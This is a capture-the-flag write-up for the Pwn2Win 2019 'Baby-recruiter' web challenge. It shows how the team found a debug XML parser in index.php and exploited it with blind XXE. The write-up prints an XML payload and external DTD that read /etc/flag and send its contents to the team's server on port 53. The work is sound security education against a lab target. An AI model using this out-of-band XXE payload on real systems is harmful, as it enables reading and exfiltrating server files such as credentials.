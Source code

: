 # Pwn2Win2019_Baby-recruiter Write-up
Web challenge solved during Pwn2Win 2019 CTF (by Ganesh - USP)

## Challenge description
```
We found a Curriculum service from HARPA. Well, what do you think about pwn it? :)

P.S.: the flag is not in default format, so add CTF-BR{} when you find it (leet speak).

```

## Write-up
Firstly, the challenge gave us three files: Dockerfile, index.php e iptables.sh (there was also an setup.sh but it wasn't useful).
By looking at the Dockerfile we noticed that:
1. It installed a version of prince that might have a vulnerability, such as [this one](https://www.corben.io/XSS-to-XXE-in-Prince/), but we were wrong. It didn't;
2. The location of the flag (/etc/flag);
3. The setup/configuration of iptables.

``` sh
# there was some other stuff here, but we don't need it now
RUN wget https://www.princexml.com/download/prince_12.5-1_ubuntu18.04_amd64.deb

RUN echo -n 'this_is_not_the_flag' > /etc/flag

RUN chmod +x iptables.sh && ./iptables.sh
```
Also, after analizing the iptables.sh file, we noticed that it was only possible to establish new connections through port 53 (used for DNS) and port 80. However, in port 80 the server only responded to already established connections.
``` sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$IPT -A OUTPUT -p udp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p udp --sport 53 -m state --state ESTABLISHED     -j ACCEPT
$IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p tcp --sport 53 -m state --state ESTABLISHED     -j ACCEPT

echo "Allowing new and established incoming connections to port 80"
$IPT -A INPUT  -p tcp -m multiport --dports 80 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A OUTPUT -p tcp -m multiport --sports 80 -m state --state ESTABLISHED     -j ACCEPT

```

After trying some stuff, we noticed that in the index.php file, there was code used for debug uncommented:
``` php
/* debug */
$dom = new DOMDocument();
$dom->loadXML($content, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
```
So, we thought that we could try a **Blind XXE Injection**! The *$content* came from a *textarea* in the index.php page, so we just had to write our payload there and send it to the server. However, the server would only respond to reqs at port 53! Thus, we had to disable the DNS resolver in our machine - at port 53 - with `sudo systemctl stop systemd-resolved` and run a local server there.
Finaly, we send the payload:
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://143.107.3.131:53/host.dtd">
<data>&send;</data>
```

And the server asked us for this .dtd file:
``` xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://143.107.3.131:53/collect/%file;'>">
%eval;
``` 

And this gave us the **flag**!

Another way of solving it is available at [SigFlag Blog](https://www.sigflag.at/blog/2019/writeup-pwn2win-baby-recruiter/
)
